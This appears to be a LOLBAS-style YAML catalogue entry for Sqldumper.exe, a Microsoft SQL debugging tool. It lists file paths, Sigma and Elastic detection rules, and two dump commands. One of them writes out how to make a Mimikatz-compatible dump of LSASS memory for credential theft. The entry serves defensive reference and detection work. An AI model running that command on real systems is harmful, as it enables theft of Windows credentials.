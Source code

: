 ```yaml
---
Name: Sqldumper.exe
Description: Debugging utility included with Microsoft SQL.
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: sqldumper.exe 464 0 0x0110
    Description: Dump process by PID and create a dump file (Appears to create a dump file called SQLDmprXXXX.mdmp).
    Usecase: Dump process using PID.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003
    OperatingSystem: Windows
  - Command: sqldumper.exe 540 0 0x01100:40
    Description: 0x01100:40 flag will create a Mimikatz compatible dump file.
    Usecase: Dump LSASS.exe to Mimikatz compatible dump using PID.
    Category: Dump
    Privileges: Administrator
    MitreID: T1003.001
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft SQL Server\90\Shared\SQLDumper.exe
  - Path: C:\Program Files (x86)\Microsoft Office\root\vfs\ProgramFilesX86\Microsoft Analysis\AS OLEDB\140\SQLDumper.exe
  - Path: C:\Program Files\Microsoft Power BI Desktop\bin\SqlDumper.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/683b63f8184b93c9564c4310d10c571cbe367e1e/rules/windows/process_creation/proc_creation_win_lolbin_susp_sqldumper_activity.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/f6421d8c534f295518a2c945f530e8afc4c8ad1b/rules/windows/credential_access_lsass_memdump_file_created.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/5bdf70e72c6cd4547624c521108189af994af449/rules/windows/credential_access_cmdline_dump_tool.toml
Resources:
  - Link: https://twitter.com/countuponsec/status/910969424215232518
  - Link: https://twitter.com/countuponsec/status/910977826853068800
  - Link: https://support.microsoft.com/en-us/help/917825/how-to-use-the-sqldumper-exe-utility-to-generate-a-dump-file-in-sql-se
Acknowledgement:
  - Person: Luis Rocha
    Handle: '@countuponsec'
---
```

